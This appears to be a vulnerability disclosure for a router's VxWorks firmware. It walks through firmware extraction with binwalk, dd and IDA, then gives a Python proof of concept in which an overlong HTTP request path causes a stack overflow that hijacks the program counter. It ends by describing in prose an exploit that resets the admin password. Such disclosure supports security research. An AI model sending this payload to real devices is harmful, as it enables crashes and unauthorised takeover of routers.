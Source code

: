 ### Analysis

Use binwalk to analyze the firmware.
```
$ binwalk ./MX25L8005_20230813_224125.BIN
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
13664         0x3560          U-Boot version string, "U-Boot 1.1.4 (Aug 28 2014 - 18:04:52)"
13712         0x3590          CRC32 polynomial table, big endian
14996         [0x3A94]          uImage header, header size: 64 bytes, header CRC: 0xEBE5C5A2, created: invalid timestamp, image size: [37958] bytes, Data Address: 0x80010000, Entry Point: [0x80010000], data CRC: 0x9BE8162C, OS: Linux, CPU: MIPS, image type: Firmware Image, compression type: lzma, image name: "u-boot image"
15060         0x3AD4          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 100568 bytes
61440         0xF000          IMG0 (VxWorks) header, size: 794144
61568         0xF080          Wind River management filesystem, compressed, 165 files
69532         0x10F9C         LZMA compressed data, properties: 0x5A, dictionary size: 8388608 bytes, uncompressed size: 10345 bytes
...
```
We can see that there is a uimage with a header at 0x3A94, a uImage (uboot image) of size 37958, and a loaded address of 0x80010000, and processor architecture mips (big endian). So we dump the uboot and decompress it.
```
$ dd if=MX25L8005_20230813_224125.BIN of=uboot.bin.lzma $ $ bs=1 skip=$((0x3A94 + 64)) count=37958
$ lzma -d ./uboot.bin.lzma
```

Using IDA to analyze uboot.bin
```
a. 
  IDA -> mips big endian
b.
  load address = 0x80010000
  rom address = 0x80010000
c.
  IDA -> Options -> General -> Analysis -> Processor specific analysis options -> $gp value = 0x800282D0
d.
  import idc
  for ea in range(0x800282D0, 0x800288D7, 4):
    idc.del_items(ea)
    idc.create_dword(ea)
``` 
![](./img/1.png)
Reverse uboot.bin to analyze the location of the vxwork firmware.
![](./img/2.png)
Then dump the vxwork firmware.
```
$ dd if=MX25L8005_20230813_224125.BIN of=vxworks.bin.lzma bs=1 skip=$((0x4a680)) count=$((0x8671d))
$ lzma -d ./vxworks.bin.lzma
```
Reverse and analyze vxworks.bin then dig for vulnerabilities.


### Bug

The reason for the vulnerability is that when going to the file system to fetch a file, an overflow can occur when the file path is too long. The overflow overwrites the PC value.

Proof of concept
```
import socket
import struct

from socket import htonl, htons

PORT = 80
IP   = "192.168.1.1"
p32  = lambda n   : struct.pack('>I', n)

io = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
io.connect((IP, PORT))
request = b'' \
+ b'GET /login/' + b'A'*0x109 + p32(0x12345678) + b'/arc.gif HTTP/1.1\r\n' \
+ b'Host: 192.168.1.1\r\n' \
+ b'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36\r\n' \
+ b'\r\n'
io.send(request)
io.recv(4096)
io.close()
```

Running this Poc, the router Crash and is hijacked to 0x12345678. this suggests that the excessively long file path triggered a stack overflow.

![](./img/7.png)


### Attack

Construct a utilization script that changes the value of the password in memory to admin (the default), triggering the router to reset the password.


